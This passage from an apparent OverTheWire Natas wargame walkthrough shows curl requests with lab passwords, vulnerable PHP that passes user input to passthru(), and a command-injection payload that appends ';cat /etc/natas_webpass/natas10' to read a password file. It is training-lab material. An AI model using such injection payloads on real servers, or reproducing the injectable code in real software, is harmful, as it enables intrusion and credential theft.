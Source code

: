 ```
$ curl -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe http://natas8.natas.labs.overthewire.org/ -d 'secret=oubWYf2kBq&submit=Submit'
```

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

# 10. Level 9

```php
<?php
// http://natas9.natas.labs.overthewire.org/index-source.html
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -F 'needle=;cat /etc/natas_webpass/natas10 #' -F 'submit=Search'
```

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

# 11. Level 10

```php
<?php
// http://natas10.natas.labs.overthewire.org/index-source.html
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
